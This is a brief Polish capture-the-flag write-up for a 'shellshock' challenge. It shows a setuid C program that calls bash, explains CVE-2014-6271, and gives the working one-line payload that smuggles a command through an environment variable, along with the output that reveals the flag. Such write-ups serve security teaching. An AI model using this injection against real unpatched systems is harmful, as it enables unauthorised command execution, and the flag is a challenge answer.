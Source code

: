 ## shellshock - 1 pt ##

Flaga: `only if I knew CVE-2014-6271 ten years ago..!!`

Kod źródłowy **shellshock.c**:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
* Bardzo proste zadanie polegające na exploitacji CVE-2014-6271 znanego jako Shellshock
* W dużym uproszczeniu: bash do 2014 roku pozwalał wykonywać polecenia zaszyte w zmiennych środowiskowych, a konkretniej w exportowanych funkcjach
* Do uzyskania flagi wystarczy stworzyć zmienną środowiskową ze ścieżką do binarki `cat` i flagi: `env x='() { :;}; /bin/cat flag' ./shellshock`:
```
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
